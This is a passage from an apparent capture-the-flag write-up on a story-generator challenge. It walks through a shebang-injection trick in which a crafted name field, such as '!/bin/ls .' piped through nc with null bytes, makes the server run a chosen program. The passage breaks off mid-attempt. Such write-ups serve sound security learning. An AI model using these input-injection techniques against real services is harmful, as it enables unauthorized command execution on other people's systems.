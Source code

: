 ```py
  index1=$(($RANDOM % $size1))
  size2=${#names[@]}
  index2=$(($RANDOM % $size2))
  echo "- a ${types[$index1]} named ${names[$index2]}"
done

echo

echo "Well, I'm not a good writer, you can write the rest... Hope this is a good starting point!"
echo "If not, try running the script again."

"""


open("/tmp/script.sh", "w").write(STORY.replace("@NAME", name).replace("@WHERE", where).strip())
os.chmod("/tmp/script.sh", 0o777)

while True:
  s = input("Do you want to hear the personalized, procedurally-generated story?\n")
  if s.lower() != "yes":
    break
  print()
  print()
  os.system("/tmp/script.sh")
  print()
  print()

print("Bye!")
```
The most important part to notice is this line: ``open("/tmp/script.sh", "w").write(STORY.replace("@NAME", name).replace("@WHERE", where).strip())``. It seems like only ``@NAME`` and ``@WHERE`` are replaced by our inputs. So we can only affect these lines:
```
#@NAME's story

NAME='@NAME'
WHERE='@WHERE'
```
We can't do any obvious shell tricks to escape quotes or expand variables (shell vars don't get expanded if contained in single quotes), because our inputs are sanitized. So after thinking a bit about it, we notice that ``@NAME`` is also found in the comment at the beginning of the script. Which is where a [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)) is supposed to be found! So our goal is to find an input for which we print the flag. We try to ls the current directory:
```
$ echo -ne '!/bin/ls .\nMorrowind\nyes\n' | nc storygen.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to a story generator.
Answer a few questions to get started.

What's your name?
Where are you from?
Do you want to hear the personalized, procedurally-generated story?


/tmp/script.sh

Do you want to hear the personalized, procedurally-generated story?
```
It seems like our ls still takes the current script name as the only argument. What if we add some null bytes to it?
```
$ echo -ne '!/bin/ls .\x00\x00\nMorrowind\nyes\n' | nc storygen.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to a story generator.
```